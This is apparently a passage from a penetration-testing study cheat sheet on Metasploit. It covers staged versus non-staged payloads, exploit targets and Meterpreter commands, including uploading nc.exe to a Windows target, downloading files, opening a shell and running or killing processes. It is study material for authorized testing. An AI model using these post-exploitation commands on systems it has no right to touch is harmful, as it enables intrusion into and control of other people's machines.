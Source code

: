 Note:  Payloads with a slash in their name are staged payloads, but the ones without them are non-staged.  Ex. `shell_reverse_tcp` is non-staged, but `shell/reverse_tcp` is staged

The `show options` command contains an `Exploit target` section which may have additional options, and may require the `set target` command to match the environment you're exploiting.  Ex. You may need to specify a return address for a BoF attack.

```bash
# Show payloads compatible with the currently selected module
show payloads

# Select a payload
set payload PAYLOAD_PATH
```

#### Meterpreter

Meterpreter provides a user-friendly and convenient interface to easily perform complex commands.  You can also enter a regular system shell.

```bash
# Show a list all modules and commands for meterpreter
help

# Target System Info
sysinfo

# Current user
getuid

# Upload a file
# NOTE:  Escape backslashes by using a double-backslash 
upload /usr/share/windows-resources/binaries/nc.exe c:\\users\\offsec.client251

# Download a file
# NOTE:  Escape backslashes by using a double-backslash 
download c:\\windows\\system32\\calc.exe /tmp/calc.exe

# Remote Filesystem navigation
ls \ pwd \ cd

# Local Filesystem navigation
lls \ lpwd \ lcd

# Launch a command shell
shell
# You won't get a prompt, so just try to enter a command once it says the channel was created.
# If the shell gets hung, use CTRL+C to close the channel and return to meterpreter

# Launch an application
execute -f app.exe

# List all running processes
ps

# Terminate a process ID N
kill N
```
